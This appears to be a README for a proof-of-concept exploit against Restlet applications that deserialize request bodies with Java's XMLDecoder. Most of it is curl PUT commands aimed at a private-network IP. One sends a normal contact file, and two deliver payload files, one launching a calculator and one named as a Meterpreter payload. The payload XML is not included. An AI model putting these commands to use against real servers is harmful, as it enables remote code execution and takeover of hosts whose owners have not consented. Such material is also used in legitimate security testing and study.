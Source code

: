 ## RestletXMLDecoder

RCE Exploit PoC for Restlet application using XMLDecoder as Unmarshaler

# Expected use:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @contact.xml "http://192.168.239.147:8180/contacts"

# Evail Calc:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @5-calc.xml "http://192.168.239.147:8180/contacts"

# Meterpreter Exploit:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @9-meterpreter.xml "http://192.168.239.147:8180/contacts"

